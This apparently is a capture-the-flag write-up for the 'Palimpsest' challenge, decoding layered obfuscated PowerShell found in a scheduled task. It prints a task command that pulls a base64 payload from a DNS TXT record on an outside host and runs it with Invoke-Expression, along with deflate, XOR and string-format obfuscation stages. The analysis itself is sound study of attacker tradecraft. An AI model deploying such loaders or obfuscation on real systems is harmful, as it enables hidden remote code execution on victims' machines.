

## Challenge Description

* Palimpsest <em>(hard)</em>

Author: Adam Rice (@adam.huntress)<br><br>Our IT department was setting up a new workstation and started encountering some strange errors while installing software. <br> The technician noticed a strange scheduled task and luckily backed it up and grabbed some log files before wiping the machine!  <br> Can you figure out what's going on? <br> <b>We've included the exported scheduled task and log files below.</b> <br>


## Solution

Palimpsest was the last challenge of the CTF and one of my favourites. It included four different tactics of obfuscating powershell - five if you include the random capitalisation designed to make it difficult to read.

We are given a scheduled task in xml and a set of Windows event logs. The first thing I did was convert the logs to CSV for ease of analysis and then I examined the scheduled task.

```xml

    <Exec>
      <Command>powershell.exe</Command>
      <Arguments>-ExecutionPolicy Bypass -Command "Invoke-Expression 
      ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String
      ((Resolve-DnsName 5aa456e4dbed10b.pyrchdata.com -Type txt |
       Select-Object -ExpandProperty Strings))))"</Arguments>
    </Exec>
```
This executes a small powershell script that resolves any txt records from 5aa456e4dbed10b.pyrchdata.com, decodes the value of a received string, and executes it dynamically. When we retrieve this string we get as we can expect a set of base64 encoded strings.

```
;; ANSWER SECTION:
5aa456e4dbed10b.pyrchdata.com. 300 IN	TXT	"LiggJFNIRWxsaURbMV0rJFNIRWxMaWRbMTNdKydYJykoIG5lVy1vQkpFQ1QgSW8uQ29tUHJlU3NJT04uZEVmbEFUZVN0UmVBbShbc3lTVGVtLklPLm1FTU9SWXNUUkVBTV1bc1lzdEVNLmNPbnZlUlRdOjpGUk9tQkFzRTY0c3RyaW5HKCAnWlZiTGF0eFFEUDBWTFZwbUp0d0o5MjE3bVQ1b0N5V0IwbDBJSmFWWkpKQVdzaWlCdHY5ZTZVaTY" "5clFMRzE5TDF1UG9TUEw1ZnYvdTd2UHg1KzNUL2NYWGoyOXBkL2I0N2Vsc2R6aS92SDI4dXk0aHBaQnZqZzlYOTk5M3U4TitmLzM2L2NYVDljME43U25sUkNIRmhRS2xPUE05eDlDbVFEWEtpOGl5M01MU1dTQlhUWHlGVkZpdFVoQ1ZOTEhHUktITVFiOHZtUzgrSkxaYnNnaGdIOC9RVEltZjJnTERLYk4yNjJ3bmk1Z042eHU1NER1TGkwSk" "RvY21uSkJwOG1xQ1FVb2U4U2NEWnpDYUpoRDMzaUpCY1lla2lSNjVOczViUVNHNTZTaERLUGNVSmVqV1lWTlhFQjdrVEpOZkx4Z1hCaDBValJ3M0Z2cHhENW5nVVh2RUFqSkZkbEJyQllaNFVQd2RUWEJDQ3cwR0JGWUdDQ1VlQ0tCbWtCTkFxeTVyR2xJRXJuWmpYYW51eFBFQXIwWDlHK2FFMnJWTkxva3NHL0ZxWVdkWElpZ0dIZUZFbDJ0W" "XBXQUc3Z3d3a1VxaHNRMHBOclVKUllSQmFaVWhBQnRiamNOaWtPT3d4aU5GV3lHdXBJdFI2STdFQ0JXRXFERGpZYklBNnFvSlRrdXp3RU1SY25pMW9NVmVNVDRKRlFaU0ZsSjZWOFpKQ21sL0xzeWgyakJyTHhVK2JrUy9MQmVVcXBHdU9ndHlVc095MUcweXdJeGxKMkxYb1M0RmRCSXdLQVpKNTFFamU4YXVHSWk0R3p4d1U4YVpJZ2lsS3Fp" "VU1Tam1QUktDOXIrMHFvcWlaVDI1RHFXQmRKTFZubEtwenpkcVdBQXBqMC9Nb0JRME9haHNyTjFzWTdhNHNhY29GV2psQ3ErTlVsUWNWTUhNbVBUdWpORCtsTlhraWk3VU5VbHh6WXJwTHNxb3B3RWsrR2c5SzB5VjhwV1FQUmdDcG92UGFjbVNHMW1tMGxWdFlhTXQvQWFrNFBaZDVUSVl5TzJOdFBuRVh6RFlZbmNoSUxnWXJPRWdvR0NJc2I" "zZi9PbXRHcVdtRmM5VCtCTGVyY3dtblBDdUpxRVRGanNtdXRiRjRyTktrRVBGVEtSNFUraklxOURVWkdSSUdId3NhSUtHZWJUc2dRbytrVFpDV3lkNlg0Z3lLN21aMmNGWk1TbFFxcW1BWmJGQVZrRGViUXZMb3BSZlhUQmNGVHZPS2p1L3FRU0pmRFZpTGpCVzI5c1JDb3c5QW1NM095alpyMXNsV2ZOb0NxOEY2blljTms1OUJvVEh4Wk9BMW" "xXS1FKeHZGUlpzdjZTekI4a25sTkFNWlJyb0RFRDhXd1VTMlNSZWRaU1FqWmNGTUl0dTdZMCtDY2pIL0M2d0Rvd0dmN0hiYUxuZmJtcHQyMGhucE84aHpHc3ZNb1NUL2V2WU5OaUk0eGJjdVRycStkdGJZTnJJbHZOdld3UUpRdGwyNGdzNTJpazFPQTkyMlRLZkQ3NWYwaS9CREpMOURMNzdROGRYejFhZGRmRzV2ZG9jL2REZysvUGh3eVg5T" "mZ3RT0nICkgLFtJby5jb01QUkVzc0lvbi5DT01QcmVTU2lPTk1vREVdOjpkRWNvbXBSRVNzKXwgZm9yRWFjSC1vYkpFQ1Qge25lVy1vQkpFQ1Qgc3lzVEVtLklPLlNUUkVBTVJFYURlUiggJF8gLCBbVEV4VC5lbmNvRGlOR106OmFzQ2lpICkgfXwgZm9yZUFDSC1PQmpFQ1QgeyRfLlJFQWRUb0VuZCgpIH0gKQ=="

```
When decoded, we get our next powershell payload:

```posh

.( $SHElliD[1]+$SHElLid[13]+'X')( neW-oBJECT Io.ComPreSsION.dEflATeStReAm(
[sySTem.IO.mEMORYsTREAM][sYstEM.cOnveRT]::FROmBAsE64strinG(
 'ZVbLatxQDP0VLVpmJtwJ9217mT5oCyWB0l0IJaVZJJAWsi
 
-- miles and miles of base64 --

bcuTrq+dtbYNrIlvNvWwQJQtl24gs52ik1OA922TKfD75f0i/BDJL9
dDg+/PhwyX9NfwE='
) ,[Io.coMPREssIon.COMPreSSiONMoDE]::dEcompRESs)| forEacH-obJECT 
{neW-oBJECT sysTEm.IO.STREAMREaDeR( $_ , [TExT.encoDiNG]::asCii ) }|
foreACH-OBjECT {$_.REAdToEnd() } )

```
This obfuscates 'IEX' using our first tactic, building commands from built-in system variable names. This is shorthand for 'Invoke-Expression', telling the shell to execute the next section dynamically.

There's a block of zlib compressed base64 data which when we convert gives us our second payload and a new obfuscation tactic. 

```posh
.((GeT-variAbLE '*mdr*').Name[3,11,2]-jOin'')
(([CHAr[]] ( 121 ,109 , 108 , 20,57, 40, 100 ,125,96 , 6 , 41, 4,13, 24 ,0, 117,127 ,
, 112,59,125,122,49 , 50, 46 ,122 , 113 , 122 ,56,122 , 116, 113 ,122 ,30,122 , 116 ,

-- miles and miles of charcode --

115,20 , 51, 43, 50, 54 ,56 ,117 ,116 
)|% { [CHAr] ( $_ -BxOR'0x5D')} )-joIN'')
```

First, we have another 'IEX' built out of variable names. Then comes an array of ascii charcode with a little twist - each character is xor with `0x5d`. Reversing the xor and then converting the charcode to ascii gives the next stage of the script.

```posh
$01Idu9 =[tYPE]("{1}{2}{0}"-f 'e','io','.fiL') ; 
${a} = 40000..65000; ${b} =  $01Idu9::(
"{1}{0}{2}" -f 'ri',("{1}{0}" -f'penW','O'),'te').Invoke(
(Join-Path -Path ${EnV:a`P`p`DAta} -ChildPath flag.mp4)); 
Get-EventLog -LogName ("{0}{2}{1}{3}" -f 'Ap','licati','p','on') 
-Source ("{0}{2}{1}"-f'mslnstal','er','l') | ? 
{ ${A} -contains ${_}."In`st`AnCe`iD" } | Sort-Object Index | % 
{ ${C} = ${_}."d`ATa"; ${b}.("{1}{0}"-f 'ite','Wr').Invoke(
${C}, 0, ${C}."LeN`GTh") }; ${b}.("{1}{0}" -f ("{0}{1}" -f 'los','e'),'C').Invoke()
```
Here is our final form of obfuscation. The '-f' operator formats strings and in this case will reassemble the commands based on the order of the string template, defined as the numbers within the curly braces. For example, `("{1}{2}{0}"-f 'e','io','.fiL')` would become `io.fiLe`. We are nearly there.

```posh
$01Idu9 =[tYPE]io.fiLe ;
${a} = 40000..65000; ${b} =  $01Idu9::OpenWrite.Invoke(
(Join-Path -Path ${EnV:aPpDAta} -ChildPath flag.mp4)); 
Get-EventLog -LogName Application -Source mslnstaller | ? {
${A} -contains ${_}."InstAnCeiD" } | Sort-Object Index | % {
${C} = ${_}."d`ATa"; ${b}.Write.Invoke(${C}, 0, ${C}."LeNGTh") };
${b}.Close.Invoke()
```
Even before the reordering, it is not too difficult to see what is happening here. A file called flag.mp4 is being written in sections to the Application log between event id 40000 to 65000. To extract it I opened up the CSV file for the converted Application log, ensured the events were ordered ascending by date, and copied the relevant column out to a text file. I could see `0000 0020 6674 7970 6973 6f6d 0000 0200` in the first entry which matched the Wikipedia entry for the magic bytes of an ISO Base Media File (MPEG-4). I then converted this hex to a binary file with a tiny tiny python snippet and was rewarded with what looked like a valid mp4 file.

```python

with open("hex_data.txt", "r") as hex_file:
    hex_data = hex_file.read().replace("\n", "").replace(" ", "")  

binary_data = bytes.fromhex(hex_data)

with open("output", "wb") as bin_file:
    bin_file.write(binary_data)
```
```bash
anachronos: unit0xbcd$ file output
output: ISO Media, MP4 Base Media v1 [ISO 14496-12:2003]   
```
Opening the video in VLC then gave us our flag.




